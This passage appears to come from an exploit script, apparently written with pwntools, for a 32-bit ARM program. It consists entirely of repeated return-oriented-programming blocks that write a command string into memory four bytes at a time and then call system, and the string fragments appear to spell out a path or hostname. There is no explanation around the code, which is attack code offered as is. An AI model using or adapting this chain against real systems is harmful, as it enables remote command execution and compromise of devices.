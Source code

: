     p += "AAAA"
    p += p32(bss+4+4+4+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += 'v/tc' # ini 
    p += "AAAA"
    p += p32(bss+4+4+4+4+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += 'p/cc' # ini 
    p += "AAAA"
    p += p32(bss+4+4+4+4+4+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += 'ug.g' # ini 
    p += "AAAA"
    p += p32(bss+4+4+4+4+4+4+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += 'unad' # ini 
    p += "AAAA"
    p += p32(bss+4+4+4+4+4+4+4+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += 'arma' # ini 
    p += "AAAA"
    p += p32(bss+4+4+4+4+4+4+4+4+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"
    

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += '.ac.' # ini 
    p += "AAAA"
    p += p32(bss+4+4+4+4+4+4+4+4+4+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"
